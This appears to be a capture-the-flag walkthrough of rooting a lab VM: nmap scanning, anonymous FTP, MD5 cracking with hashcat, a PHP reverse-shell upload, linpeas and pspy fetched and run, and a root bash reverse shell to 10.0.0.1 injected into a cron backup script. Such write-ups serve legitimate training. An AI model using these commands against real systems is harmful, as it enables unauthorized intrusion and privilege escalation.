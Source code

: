 # Exploit Walkthrough

## 1. Initial Scan

We begin by scanning the target system using `nmap`. The scan reveals the following open ports:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-17 21:55 EDT
Nmap scan report for 172.16.137.131
Host is up (0.00059s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:67:26:B2 (VMware)
```

### FTP (Port 21) with Anonymous Access

The FTP service allows anonymous access, and we discover a file called `note.txt`:

```bash
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
```

Inside the file, we find an important message, revealing credentials and hints regarding a SQL command:

```SQL
Hello Heath!
Grimmie has set up the test website for the new academy.
I told him not to use the same password everywhere; he will change it ASAP.

INSERT INTO `students` 
(`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

-jdelta
```

### Hash Analysis and Cracking

We identify the hash `cd73502828457d15655bbd7a63fb0bc8` as **MD5** using `hash-identifier`. To crack it, we use **hashcat**:

```bash
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

After cracking, we find the password is `student`.

We now have valid credentials:

```bash
10201321:student
```

## 2. Directory Enumeration

Next, we explore the web server using `dirb`:

```bash
dirb http://172.16.137.131
```

We also use `ffuf` for fuzzing directory names:

```bash
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://172.16.137.131/FUZZ
```

This reveals an `/academy` directory. We log in using the previously discovered credentials (`10201321:student`).

## 3. File Upload Exploit (Reverse Shell)

The academy application has a file upload feature on the profile page. We attempt to upload a PHP reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell):

```php
php-reverse-shell.php
```

After successfully uploading the reverse shell, we trigger it by navigating to the uploaded file, gaining a shell as the `apache` user.

![Reverse Shell](./Image/1.png)

## 4. Privilege Escalation

To escalate privileges, we run **linpeas** for automated scanning:

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### MySQL Credentials Found

Linpeas reveals a MySQL configuration file with credentials. Using these, we identify a user called **grimmie**.

![MySQL Credentials](./Image/3.png)

### SSH Access

We attempt to SSH into the machine using **grimmie**'s credentials, and it works!

```bash
ssh grimmie@172.16.137.131
```

## 5. Root Access via Backup Script

Inside **grimmie**'s home directory, we find a `backup.sh` script. To monitor processes, we use **pspy** to detect when the script is running:

```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
./pspy64
```

![Backup Script Execution](./Image/6.png)

The `backup.sh` script runs periodically, giving us an opportunity for privilege escalation. We modify the script to include a reverse shell:

```bash
bash -i >& /dev/tcp/10.0.0.1/8081 0>&1
```

### Getting Root Access

Once the modified script runs, we listen on port `8081` and receive a root shell:

```bash
nc -lvnp 8081
```

![Root Shell](./Image/9.png)

---

With that, we successfully exploited the system and achieved root access.